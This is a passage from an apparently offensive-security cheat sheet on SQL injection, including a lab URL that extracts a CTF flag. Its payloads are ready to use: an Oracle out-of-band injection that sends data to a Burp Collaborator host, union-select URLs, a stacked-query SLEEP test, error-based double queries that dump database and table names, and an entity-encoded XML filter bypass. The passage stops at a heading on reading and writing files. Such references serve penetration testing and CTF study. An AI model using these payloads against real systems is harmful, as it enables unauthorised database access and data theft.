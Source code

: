{% code overflow="wrap" %}
```sql
https://requestbin.io

The attack channel could be a web request, and the data gathering channel could be monitoring HTTP/DNS requests made to a service you control.
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- -

# Another way: a query inside a query
http://website.com/user?id=152 union select "1 order by 4 -- -",2,3 from information_schema.tables where table_schema=database()
http://10.10.115.182/user?id=1337%20union%20select%20%221%20union%20select%201,flag,3,4%20from%20flag%20--%20-%22,2,3%20from%20information_schema.tables%20where%20table_schema=database()
```
{% endcode %}

## Stacked Queries

```sql
search=value;SELECT SLEEP(5)#
```

## Subquery / Double Query

{% code overflow="wrap" fullWidth="true" %}
```sql
1' and (select 1 from (Select count(*),Concat((<Your Query here to return single row>),0x3a,floor(rand (0) *2))y from information_schema.tables group by y) x)-- -
1' and (select 1 from (Select count(*),Concat((select database()),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -
1' and (select 1 from (Select count(*),Concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand(0)*2))y from information_schema.tables group by y) x)-- -
```
{% endcode %}

## SQL injection in different contexts

{% code overflow="wrap" fullWidth="true" %}
```sh
# For example, some websites take input in JSON or XML format and use this to query the database. 
# The following XML-based SQL injection uses an XML escape sequence (HTML Entity) to encode the S character in SELECT
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```
{% endcode %}

## Read / write files
